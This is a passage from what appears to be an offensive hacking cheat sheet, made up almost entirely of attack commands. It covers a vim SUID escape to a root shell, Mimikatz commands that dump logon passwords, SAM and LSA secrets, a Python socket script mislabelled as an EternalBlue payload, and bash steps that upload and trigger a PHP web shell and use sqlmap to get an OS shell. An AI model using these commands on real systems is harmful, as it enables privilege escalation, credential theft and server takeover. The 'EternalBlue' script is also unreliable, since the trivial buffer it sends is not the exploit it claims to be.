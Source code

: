 ```bash

# If /usr/bin/vim has SUID bit:
/usr/bin/vim -c ':!/bin/bash'
```

### 3. Memory-based Credential Extraction
```powershell
# Using Mimikatz for credential extraction
privilege::debug
sekurlsa::logonpasswords full
sekurlsa::wdigest
sekurlsa::msv
sekurlsa::kerberos
sekurlsa::tspkg
lsadump::sam
lsadump::secrets
lsadump::cache

# PowerShell alternative methods
Add-Type -AssemblyName System.DirectoryServices.AccountManagement
$context = New-Object System.DirectoryServices.AccountManagement.PrincipalContext([System.DirectoryServices.AccountManagement.ContextType]::Machine)
$context.ValidateCredentials("username", "password")
```

### 4. Network Service Exploitation
```python
#!/usr/bin/env python3
# SMB exploitation example
import socket
import struct

target_ip = "192.168.1.100"
target_port = 445

# EternalBlue exploit payload
payload = b"\x00\x00\x00\x54" + b"A" * 84

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))
    s.send(payload)
    response = s.recv(1024)
    print(f"Response: {response}")
    s.close()
except Exception as e:
    print(f"Error: {e}")
```

### 5. Web Application System Compromise
```bash
#!/bin/bash
# Web shell deployment and system access
TARGET="http://target-site.com"

# File upload vulnerability exploitation
curl -X POST -F "file=@webshell.php" $TARGET/upload.php
curl $TARGET/uploads/webshell.php?cmd=whoami

# SQL injection to system command execution
sqlmap -u "$TARGET/page.php?id=1" --os-shell --batch

# Directory traversal to sensitive file access
```